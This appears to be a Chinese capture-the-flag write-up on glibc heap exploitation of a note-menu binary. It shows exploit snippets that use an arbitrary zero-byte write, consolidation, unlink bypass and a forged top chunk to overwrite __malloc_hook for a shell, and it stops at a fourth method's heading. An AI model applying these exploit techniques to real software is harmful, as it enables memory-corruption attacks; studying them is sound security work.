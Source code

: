 # 零碎的知识点
### 1.main_arena 与 t_arena
malloc一个很当的空间时，int_malloc会返回null<br>
从而去调用arena_get_retry分配新的arena，再次尝试去分配内存，当然最后分配也是失败的<br>
一旦分配了新的arena，之后的堆操作会使用这个arena进行操作，可以参考arena_get函数<br>
新的arena的查看，p &main_arena->next 就可以找到新的arena的地址，进行查看
![t_arena](img/t_arena.png)<br>

# 题目分析
menu题目<br>
![menu](img/menu.PNG)<br>
### 漏洞点
漏洞点在new_note的malloc地方，malloc的size没有被限制，也没有校验malloc的返回值<br>
导致`*((_BYTE *)qword_202050[v1] + size - 1) = 0;`，任意地址写0<br>
![vuln](img/vuln.PNG)<br>


## 总体思路
1.chunk块在free和malloc的时候没有对立面的内容进行清空，所以很容易可以泄露出main_arena的地址,进而获取libc的基址<br>
2.由于要使用任意地址写0这个操作，必定要malloc(big_size)，后续的操作都会在t_arena上进行。所以先将chunk移到t_arena上，然后泄露t_arena的基址<br>
3.这个题目，总共找到了五种解题方法（getshell或者成功写malloc_hook视为解题成功）<br>
3.1.这个题目一共只能申请三个chunk，使用chunka、chunkb、chunkc代替。思路为使用chunkb修改chunkc的pre_size，pre_size覆盖chunka,chunkb。然后将chunkc的inuse位写0,free(chunkc)达到conslidate(chunka+chunkb+chunkc)的目的，此时可以通过malloc切割chunkabc来写chunkb
3.2.和第一种类似，也是将chunkc in use位写0，通过free(chunka)，之后通过unlink 去consolidate(chunkb)，让chunka和chunkb合并。使用malloc切割chunkab来写chunkb<br>
3.3.修改t_arena中top chunk的地址，在chunka中伪造一个top chunk，在t_arena的top chunk地址最低位写0，这个地址刚好落在chunka内，如果此时在申请一个chunkc，就会造成chunkb和chunkc的overlap，就可以使用chunkc去修改chunkb








## 具体利用
### 1+2.前面的利用基址就不详细说了
### 3.1.free(chunkc) && conslidate(chunka+chunkb+chunkc)
使用chunkb去写chunkc的pre_size,chunkd防止top chunk和chunkc合并了，此时chunka和chunkc都挂在unsortedbin上。
```
  new(0,0x98,'A'*0x97)
  new(1,0x68,'B'*0x60+p64(0x140))
  new(2,0xf0,'C'*0xef)

  #like off-by-one-null
  delete(1)
  new(1,0x30,'D'*0x30)
  delete(2)
  delete(0)
  new(2,0x68,'B'*0x67)
```
![3.1.1](img/3.1.1.PNG)<br>
chunkc在in use的情况下，size的值是105，因为是mmap分配的，free的情况下是101,此时将chunkc(freed)的in use位写0<br>
将chunkc malloc回来，然后在free，触发consolidate，在0x7ffff00008b0的地方有一个size=0x241大小的chunk挂在unsortedbin上<br>
之后申请都会先从这个chunk里面切割，last chunk。
```
  new(0,heap_addr-0x78+0x9f8+1,'')
  new(0,0xf0,'C'*0xef)
  delete(0)
```
![3.1.2](img/3.1.2.PNG)<br>
此时chunkabc就能够写chunkb了，此时可以单独free(chunkb)，然后去写chunkb的fd，就可以将malloc_hook附近的地址放进chunkb的fd<br>
```
  delete(2)
  malloc_hook=main_arena-0x78+5-0x18
  new(0,0xe0,0xc0*'a'+p64(0)+p64(0x74)+p64(malloc_hook))
```
![3.1.3](img/3.1.3.PNG)<br>
new两次，将malloc_hook附近的地址new出来就可以修改内容了，填成one_gadget getshell<br>
```
  new(2,0x68,'')
  delete(1)
  new(1,0x68,'A'*19+p64(0xdeedbeef))
```
![3.1.4](img/3.1.4.PNG)<br>
### 3.2.free(chunka) && conslidate(chunka+chunkb)
这种方式和第一种类似，不过这里要绕过unlink里面double-linked list的机制<br>
第一种方式里面自带了合法的fd和bk，所以不需要特意构造fd和bk绕过double-linked机制<br>
这种解法要自己构造chunkb的fd+bk，让chunka和chunkb的fd+bk互相指向，来绕过double-linked机制<br>
满足以下条件:
```
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);

```
所以需要在满足double-linked条件下，将chunkc的in use位修改成0，标志着chunkb没有被使用<br>
那么在free(chunka)的时候，就会触发unlink机制，consolidate(chunka+chunkb)
```
  new(0,0x98,'A'*0x98)
  new(1,0x68,p64(0x7ffff00008b0)*2+'B'*0x50+p64(0x70))
  new(2,0xf0,'C'*0xef)
  delete(0)
  new(0,heap_addr-0x78+0x9f8+1,'') 
  new(0,0xc0,p64(0x7ffff0000980)*2+'A'*0xb0)
```
![3.2.1](img/3.2.1.PNG)<br>
chunka+chunkb合并之后放入unsortedbin，作为last chunk，之后申请小于size(chunka+chunkb)的chunk都会切割last chunk<br>
```
  delete(0) #consolidate(chunka+chunkb)
  delete(1)
  malloc_hook=main_arena-0x78+5-0x18
  new(0,0xe0,0xc0*'a'+p64(0)+p64(0x75)+p64(malloc_hook))
```
![3.2.2](img/3.2.2.PNG)<br>
之后将malloc_hook附近的chunk new出来，就可以改写malloc_hook了
```
  new(1,0x68,'')
  delete(0)
  new(0,0x68,'A'*19+p64(0xdeedbeef))
```
![3.2.3](img/3.2.3.PNG)<br>

### 3.3.修改t_arena里面top chunk的地址，造成chunk之间的overlap
在chunka里面伪造一个top chunk,让伪造topchunk的地址刚好落在0x7ffff0000900的地方<br>
在申请一个chunkb，等待被overlap<br>
```
  new(0,main_arena,'') #让fastbin和unsortedbin和top chunk全部合并，方便布局
  new(0,0x70,'A'*0x48+p64(0x20701))
  new(1,0x60,'B'*0x60)

```
![3.3.1](img/3.3.1.PNG)<br>
然后修改t_arena上面top chunk的地址，将最低位写0，由0x7ffff00009a0->0x7ffff0000900<br>
```
  new(2,heap_addr-0x78+0x79,'')
```
before:<br>
![3.3.2](img/3.3.2.PNG)<br>
after:<br>
![3.3.3](img/3.3.3.PNG)<br>
此时malloc的时候，就会从0x7ffff0000900的地方申请空间了，这样就会造成新申请的chunkc和chunkb overlap了。<br>
红色框框里面的就是通过fake top chunk，malloc出来的chunkc<br>
```
  malloc_hook=main_arena-0x78+5-0x18
  new(2,0x40,'a'*0x20+p64(0)+p64(0x75)+p64(malloc_hook))
```
![3.3.4](img/3.3.4.PNG)<br>
new出来搞定,效果图同3.1/3.2<br>
```
  new(1,0x68,'')
  delete(2)
  new(2,0x68,'A'*19+p64(0xdeedbeef))
```
### 3.4.house of force。修改top chunk size,通过malloc 将top chunk size向高地址推进，使用free_hook





























